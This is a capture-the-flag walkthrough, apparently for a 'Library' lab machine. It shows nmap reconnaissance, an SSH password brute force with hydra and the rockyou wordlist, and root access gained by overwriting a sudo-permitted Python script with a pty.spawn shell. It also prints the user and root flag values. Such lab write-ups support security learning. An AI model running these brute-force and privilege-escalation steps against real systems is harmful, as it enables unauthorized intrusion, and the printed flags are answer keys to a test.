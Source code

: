 > Library | Booot2Root

**export IP=10.10.47.214**

# Nmap

nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
```

**NOTE : We found an user in home page Meliodas**

## robots.txt

```
User-agent: rockyou 
Disallow: / i.e) use rockyou.txt
```

# Bruteforcing SSH using hydra

sudo hydra -l meliodas -P /snap/john-the-ripper/rockyou.txt ssh://$IP -t 4

```
[22][ssh] host: 10.10.47.214   login: meliodas   password: iloveyou1
```

## user.txt

=========================================
6d488cbb3f111d135722c33cb635f4ec
=========================================

sudo -l

```
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

We have a file bak.py in home directory. And we can't execute as sudo like
`sudo python bak.py` instead we can execute like `sudo python /home/meliodas/bak.py`.

So remove `bak.py` and write it with our own file

```
echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py
```

And running `sudo python /home/meliodas/bak.py` gives us our root shell!!
## root.txt

=========================================
e8c8c6c256c35515d1d344ee0488c617
=========================================
